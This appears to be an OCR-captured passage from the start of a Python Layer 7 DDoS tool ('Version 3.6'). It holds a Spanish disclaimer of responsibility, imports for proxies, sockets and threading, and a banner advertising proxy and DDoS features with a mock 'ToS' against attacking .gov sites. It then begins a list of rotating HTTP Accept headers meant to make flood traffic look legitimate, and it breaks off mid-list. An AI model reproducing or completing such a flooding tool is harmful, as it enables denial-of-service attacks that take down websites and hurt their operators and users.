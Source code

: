 #  NO ME HAGO RESPONSABLE DE NADA 
  
#!/usr/bin/python3
#########################################
#         Just a little change          #
#                                       #
#########################################
import requests
import socket
import socks
import time
import random
import threading
import sys
import ssl
import datetime



print ('''
	                                 
██╗     ██╗   ██╗ ██████╗ ██╗   ██╗ ██████╗ ███████╗███████╗██╗     ██╗███╗   ██╗███████╗    ██╗     
██║     ╚██╗ ██╔╝██╔═══██╗██║   ██║██╔═══██╗██╔════╝██╔════╝██║     ██║████╗  ██║██╔════╝    ██║    !--------!
██║█████╗╚████╔╝ ██║   ██║██║   ██║██║   ██║█████╗  █████╗  ██║     ██║██╔██╗ ██║█████╗█████╗██║    ! Layer7 !
██║╚════╝ ╚██╔╝  ██║   ██║██║   ██║██║   ██║██╔══╝  ██╔══╝  ██║     ██║██║╚██╗██║██╔══╝╚════╝██║    !--------!
███████╗   ██║   ╚██████╔╝╚██████╔╝╚██████╔╝██║     ██║     ███████╗██║██║ ╚████║███████╗    ███████╗
╚══════╝   ╚═╝    ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝     ╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝    ╚══════╝
                                                                                                     
>--------------------------------------------->
Version 3.6 (2020/11/14)
							
┌─────────────────────────────────────────────┐
│        Tos: Don't attack .gov website       │
├─────────────────────────────────────────────┤
│                                             |
│          [+] Proxy                          |
│          [+]                                |
│          [+] DDos                           |
├─────────────────────────────────────────────┤
│  │
└─────────────────────────────────────────────┘''')

acceptall = [
		"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\n",
		"Accept-Encoding: gzip, deflate\r\n",
		"Accept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\n",
		"Accept: text/html, application/xhtml+xml, application/xml;q=0.9, */*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Charset: iso-8859-1\r\nAccept-Encoding: gzip\r\n",
		"Accept: application/xml,application/xhtml+xml,text/html;q=0.9, text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Charset: iso-8859-1\r\n",
		"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Encoding: br;q=1.0, gzip;q=0.8, *;q=0.1\r\nAccept-Language: utf-8, iso-8859-1;q=0.5, *;q=0.1\r\nAccept-Charset: utf-8, iso-8859-1;q=0.5\r\n",
		"Accept: image/jpeg, application/x-ms-application, image/gif, application/xaml+xml, image/pjpeg, application/x-ms-xbap, application/x-shockwave-flash, application/msword, */*\r\nAccept-Language: en-US,en;q=0.5\r\n",